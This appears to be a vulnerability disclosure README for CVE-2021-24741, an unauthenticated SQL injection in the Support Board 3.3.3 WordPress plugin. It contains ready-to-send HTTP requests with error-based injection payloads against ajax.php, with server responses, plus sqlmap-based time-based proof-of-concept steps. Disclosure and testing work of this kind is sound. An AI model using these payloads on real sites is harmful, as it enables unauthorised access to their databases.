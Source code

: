# CVE-2021-24741

#### Multiple SQL Injection (Unauthenticated) in Support Board v 3.3.3

####  Description
```
Support Board V 3.3.3
Multiple SQL Injection Vulnerability in Support Board Version 3.3.3 that allow remote unauthenticated attacker to execute arbitrary SQL commands via status_code, department, user_id, conversation_id, conversation_status_code, and recipient_id parameters to ajax.php which is connected to functions.php which the vulnerability is present.
```

#### Vulnerable Parameters

| **Function** | **Vulnerable Parameter** | **Injection Type** |
:--- | :--- | :---
| new-conversation | status_code | Error Based |
| new-conversation | department | Error Based |
| send-message | user_id | Error Based |
| send-message | conversation_id | Time Based |
| send-message | conversation_status_code | Time Based |
| send-message | recipient_id | Time Based |

#### Exploit 

### PoC1 : Error Based SQLi (status_code)

Request 
```
POST /wp-content/plugins/supportboard/supportboard/include/ajax.php HTTP/1.1
Host: TARGET
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 882
Origin: https://TARGET.com
Connection: close
Referer: https://TARGET.com
Cookie: sb-updates=3.3.3; sb-login=

function=new-conversation&status_code=2"+AND+EXTRACTVALUE(4597,CONCAT("","DB+Name:+",(SELECT+(ELT(4597=4597,""))),database()))+AND+"fKoo"="fKoo&title=&department=&agent_id=&routing=false&login-cookie=&user_id=46&language=false
```
Response 
```
HTTP/1.1 200 OK

Date: Sat, 28 Aug 2021 18:58:17 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
vary: Accept-Encoding
x-frame-options: SAMEORIGIN
x-content-type-options: nosniff
x-xss-protection: 1; mode=block
strict-transport-security: max-age=31536000; includeSubDomains
CF-Cache-Status: DYNAMIC
Expect-CT: max-age=604800, report-uri="https://report-uri.cloudflare.com/cdn-cgi/beacon/expect-ct"
Report-To: {"endpoints":[{"url":"https:\/\/a.nel.cloudflare.com\/report\/v3?s=7jx%2B3idpDKEIdWokVp8zt1WD3J64SNohgLzr8wG0%2FYt44Hh1ieE3BpnnoRhc7aiPoGPnajoyWIeRykJZ2sYx4pDvl6TQErTS%2FoSAq2ovqRIk0sNOzOw84Xw%2BnmbTt4p5rFjE4%2F%2Bv"}],"group":"cf-nel","max_age":604800}
NEL: {"success_fraction":0,"report_to":"cf-nel","max_age":604800}
Server: cloudflare
CF-RAY: 685fc52cfdc704ff-LAX
alt-svc: h3-27=":443"; ma=86400, h3-28=":443"; ma=86400, h3-29=":443"; ma=86400, h3=":443"; ma=86400

Content-Length: 84
["error","db-error","sb_db_query","XPATH syntax error: 'Name: VULNERABLE_DB'"]
```

### PoC2 : Error Based SQLi (department)
Request

```
POST /wp-content/plugins/supportboard/supportboard/include/ajax.php HTTP/1.1
Host: TARGET
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 882
Origin: https://TARGET.com
Connection: close
Referer: https://TARGET.com
Cookie: sb-updates=3.3.3; sb-login=

function=new-conversation&status_code=2o&title=&department=(UPDATEXML(5632,CONCAT(0x2e,"Database+Name:+",(SELECT+(ELT(5632=5632,""))),database()),3004))&agent_id=&routing=false&login-cookie=&user_id=46&language=false
```
Response

```
HTTP/1.1 200 OK
Date: Sat, 28 Aug 2021 19:13:02 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
vary: Accept-Encoding
x-frame-options: SAMEORIGIN
x-content-type-options: nosniff
x-xss-protection: 1; mode=block
strict-transport-security: max-age=31536000; includeSubDomains
CF-Cache-Status: DYNAMIC
Expect-CT: max-age=604800, report-uri="https://report-uri.cloudflare.com/cdn-cgi/beacon/expect-ct"
Report-To: {"endpoints":[{"url":"https:\/\/a.nel.cloudflare.com\/report\/v3?s=7%2BL82UPHELAmWNdiuLOzhsdym4B4JdI07PQtRZzBDqONnB0BJshT45SglIlz0F6md0QH%2B6YfNWxc%2BNItIJKK9QAZOwMOFrgM5okXHOQcm%2FsehlPeSmT6%2BsSfI3MkgxYalCzmezVp"}],"group":"cf-nel","max_age":604800}
NEL: {"success_fraction":0,"report_to":"cf-nel","max_age":604800}
Server: cloudflare
CF-RAY: 685fdac8cd2fd1af-HKG
alt-svc: h3-27=":443"; ma=86400, h3-28=":443"; ma=86400, h3-29=":443"; ma=86400, h3=":443"; ma=86400
Content-Length: 91

["error","db-error","sb_db_query","XPATH syntax error: 'Database Name: VULNERABLE_DB'"]
```
### PoC 3: Error Based SQLi (user_id)

Request
```
POST /wp-content/plugins/supportboard/supportboard/include/ajax.php HTTP/1.1
Host: TARGET
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 1044
X-Requested-With: XMLHttpRequest
Origin: TARGET
Referer: https://TARGET/wp-content/plugins/supportboard/supportboard/admin.php?conversation=-1
Connection: close
Cookie: sb-updates=3.3.3; sb-login=

function=send-message&user_id=-5"+AND+GTID_SUBSET(CONCAT("Database+Name:+",(SELECT+(ELT(3919=3919,""))),database()),3919)+AND+"wrOJ"="wrOJ&conversation_id=35&message=TEST+POC&conversation_status_code=false&queue=false&payload=false&recipient_id=30&login-cookie=&language=false
```

Response
```
HTTP/1.1 200 OK

Date: Mon, 23 Aug 2021 15:12:14 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
vary: Accept-Encoding
x-frame-options: SAMEORIGIN
x-content-type-options: nosniff
x-xss-protection: 1; mode=block
strict-transport-security: max-age=31536000; includeSubDomains
CF-Cache-Status: DYNAMIC
Expect-CT: max-age=604800, report-uri="https://report-uri.cloudflare.com/cdn-cgi/beacon/expect-ct"
Report-To: {"endpoints":[{"url":"https:\/\/a.nel.cloudflare.com\/report\/v3?s=geY0cx80cnOpGXxsoeebXh15IbI3NqHun6JzLhfZrSsTTJ7Vsx15Qwyp5K%2FW7DITdGVhFxoI%2FLarUmetvQIhPCvsCLkO8tiNqb64ulu6BNf2XlkPUqviZOgSwUhHZDJVx%2Bo%3D"}],"group":"cf-nel","max_age":604800}
NEL: {"success_fraction":0,"report_to":"cf-nel","max_age":604800}
Server: cloudflare
CF-RAY: 6835472c4b1a24bf-HKG
alt-svc: h3-27=":443"; ma=86400, h3-28=":443"; ma=86400, h3-29=":443"; ma=86400, h3=":443"; ma=86400

Content-Length: 103
["error","db-error","sb_db_query","Malformed GTID set specification 'Database Name: VULNERABLE_DB'."]
```

### PoC 4: Time Based (conversation_id)

we are going to use sql map for exploiting Time Based
so we are going to save the request from the repeater to as a req file then use sqlmap to scan the request to find the conversation_id parameter is vulnerable to time based

Found the conversation_id parameter is vulnerable

![vulnerable_param_conversation_id](./pictures/conversation_id_vuln.png)

Payload found in sqlmap:

![payload_conversation_id](./pictures/payload_conversation_id.png)

### PoC 5 : Time Based (conversation_status_code)

we are going to use sql map for exploiting Time Based
so we are going to save the request from the repeater to as a req file then use sqlmap to scan the request to find the conversation_status_code parameter is vulnerable to time based

Found the conversation_status_code parameter is vulnerable

![vulnerable_param_conversation_status_code](./pictures/conversation_status_vuln.png)

Payload found in sqlmap:

![payload_conversation_status_code](./pictures/payload_conversation_status_code.png)

### PoC 6 : Time Based (recipient_id)

we are going to use sql map for exploiting Time Based
so we are going to save the request from the repeater to as a req file then use sqlmap to scan the request to find the recipient_id parameter is vulnerable to time based

Found the recipient_id parameter is vulnerable

![vulnerable_param_recipient_id](./pictures/recipient_id_vuln.png)

Payload found in sqlmap:

![payload_recipient_id](./pictures/payload_recipient_id.png)
